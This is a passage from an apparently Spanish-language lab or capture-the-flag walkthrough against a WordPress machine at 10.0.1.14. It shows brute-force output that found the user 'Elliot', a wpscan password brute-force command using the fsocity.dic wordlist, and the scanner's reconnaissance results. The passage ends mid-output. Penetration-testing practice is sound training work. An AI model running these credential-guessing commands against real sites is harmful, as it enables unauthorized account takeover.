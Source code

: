 ```bash
[80][http-post-form] host: 10.0.1.14   login: Elliot   password: 1234
[STATUS] 379.00 tries/min, 379 tries in 00:01h, 857856 to do in 37:44h, 16 active
```
Ahora que tenemos el nombre de usuario, vamos a proceder a encontrar la contraseña utilizando wpasan
```bash
wpscan --url 10.0.1.14 --passwords fsocity.dic --usernames Elliot -t 35
```
Resultado:
```bash
└─$ wpscan --url 10.0.1.14 --passwords fsocity.dic --usernames Elliot -t 35
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.0.1.14/ [10.0.1.14]
[+] Started: Tue Apr 30 12:27:53 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.0.1.14/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.0.1.14/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.0.1.14/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.0.1.14/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299
```